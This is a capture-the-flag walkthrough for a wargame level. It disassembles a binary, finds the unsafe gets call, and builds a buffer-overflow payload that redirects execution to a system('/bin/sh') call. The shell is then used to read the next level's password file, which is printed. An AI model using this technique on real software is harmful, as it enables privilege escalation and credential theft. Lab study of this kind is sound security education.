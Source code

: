 # Level1

We have a binary once again : `level1`

Running it ends up in an infinite loop or freeze, so not much to be done here..

Let’s try to disassemble it again :

First, using `readelf`

```nasm
Symbol table '.symtab' contains 69 entries:
Num:    Value  Size Type    Bind   Vis      Ndx Name
[...]
50: 08048444    60 FUNC    GLOBAL DEFAULT   13 run
[...]
66: 08048480    23 FUNC    GLOBAL DEFAULT   13 main
[...]
```

We notice 2 functions with some content (size)

Then with `gdb`, like in level0 :

```nasm
(gdb) disas main
Dump of assembler code for function main:
0x08048480 <+0>:     push   ebp                                // Setup a stack for the function
0x08048481 <+1>:     mov    ebp,esp                            // ~
0x08048483 <+3>:     and    esp,0xfffffff0                     // ~
0x08048486 <+6>:     sub    esp,0x50                           // Allocate 0x50 (80) bytes on stack
0x08048489 <+9>:     lea    eax,[esp+0x10]                     // The buffer in eax starts at 0x10 (16)
0x0804848d <+13>:    mov    DWORD PTR [esp],eax                // Move it to the top of the stack
0x08048490 <+16>:    call   0x8048340 gets@plt                 // Call gets with whatever is in the stack
0x08048495 <+21>:    leave
0x08048496 <+22>:    ret
End of assembler dump.
(gdb) disas run
Dump of assembler code for function run:
0x08048444 <+0>:     push   ebp
0x08048445 <+1>:     mov    ebp,esp
0x08048447 <+3>:     sub    esp,0x18                            // Allocate 0x18 (24) bytes on the stack
0x0804844a <+6>:     mov    eax,ds:0x80497c0                    // Copy whatever is at the adres 0x8... in eax
0x0804844f <+11>:    mov    edx,eax                             // Copy it into edx
0x08048451 <+13>:    mov    eax,0x8048570                       // Copy whatever is at the adres 0x8... in eax
0x08048456 <+18>:    mov    DWORD PTR [esp+0xc],edx             // Push edx into the stack
0x0804845a <+22>:    mov    DWORD PTR [esp+0x8],0x13            // Copy 0x13 at 0x8 in the stack
0x08048462 <+30>:    mov    DWORD PTR [esp+0x4],0x1             // Copy 0x1 at 0x4 in the stack
0x0804846a <+38>:    mov    DWORD PTR [esp],eax                 // Copy eax at the top of the stack
0x0804846d <+41>:    call   0x8048350 [fwrite@plt](mailto:fwrite@plt)                // Call fwrite
0x08048472 <+46>:    mov    DWORD PTR [esp],0x8048584           // Copy whatever is at 0x80... at the top of the stack
0x08048479 <+53>:    call   0x8048360 [system@plt](mailto:system@plt)                // Call system
0x0804847e <+58>:    leave
0x0804847f <+59>:    ret
End of assembler dump.
```

The run function contains a call to `system`, which executes the command we put in it, that’s interesting and could be our solution !
However `main` is never calling `run`… The only call it makes is to `gets`.

`gets` isn’t safe as it does not limit the number of characters it reads and that can result in a buffer overflow, that’s a good thing for us !

Now we need to figure out how big our payload should be in order to overflow and to reach the run function :

<aside>
💡

From stack overflow :

*esp is the stack pointer. ebp is for a stack frame so that when you 
enter a function, ebp can get a copy of esp at that point. Everything 
already on the stack, the return address, passed-in parameters, etc. and
 things that are global for that function (local variables) will now be a
 static distance away from the stack frame pointer for the duration of 
the function. esp is now free to wander about as the compiler desires 
and can be used when nesting to other functions (each needs to preserve 
the ebp naturally).*

</aside>

When leave is called, `ebp` is moved back to esp and `ebp` pops back to its old value, restoring the stack as it was before `main` was called. That means the old `ebp` is stored somewhere in the stack, taking up 4 space, the return address of main function is then most likely located after that value. We also know that we allocated a 80 bytes buffer on the stack, but it only starts at 0x10 (16), that means our payload needs to be :
`80 - 16 + 4 (old ebp) + 4 (return address) = 68 padding + 4 address` 

So it seems we need to fill 68 random bytes and then overwrite the return address with run’s address we got from `readelf` : `0x08048444`

This can be done easily with python, giving our payload as `stdin`, which will be read by `gets` : (note that the address is given backwards as required by x86 processors → little endian)

```bash
python -c 'print("X" * 68 + "\x44\x84\x04\x08")' | ./level1
```

But that produces no output, no segfault as well, kinda weird.

Our size calculation seems correct but I tried some values that were close to it just in case

```bash
level1@RainFall:~$ python -c 'print("X" * 68 + "\x44\x84\x04\x08")' | ./level1
level1@RainFall:~$ python -c 'print("X" * 64 + "\x44\x84\x04\x08")' | ./level1
level1@RainFall:~$ python -c 'print("X" * 60 + "\x44\x84\x04\x08")' | ./level1
level1@RainFall:~$ python -c 'print("X" * 72 + "\x44\x84\x04\x08")' | ./level1
Illegal instruction (core dumped)
level1@RainFall:~$ python -c 'print("X" * 76 + "\x44\x84\x04\x08")' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

Something definitely happens with a payload of 80 in total, there could be two reasons for that : one is I went too far with trying to calculate where the return address should be and I just had to take the size of the buffer allocated (which was 0x50 or 80). Or, there is a padding of 8 bytes performed by the program to keep alignment to 16 bytes and that would make more sense : 

- **64 / 16 = 4**               that’s okay
- **64 + 4 (ebp) + 4 (return address) / 16 = 4.5**            that’s not okay
- **64 + 8 (padding) + 4 (ebp) + 4 (return address)**  **= 5**      that’s okay !

Anyway, now that we have a correct buffer value we have an issue : it still segfaults afterwards. 
The message we get : “Good… Wait what?” probably comes from the call to `fwrite` in `run`. It should then call `system` with whatever is at the address `0x8048584`, let’s find out what’s there

```bash
level1@RainFall:~$ gdb -q ./level1
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) x/s 0x8048584
0x8048584:       "/bin/sh"
```

Alright, so that is indeed the solution to this level ! Now we just need to keep access to this shell and interact with it, and to do that we need to keep `stdin` open, otherwise the shell thinks we’re already done before we even started. One way to do that is by adding `cat` to our command : 

```bash
level1@RainFall:~$ (python -c 'print("X" * 76 + "\x44\x84\x04\x08")'; cat) | ./level1
Good... Wait what?
id
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
exit
```

And we’re finally done !
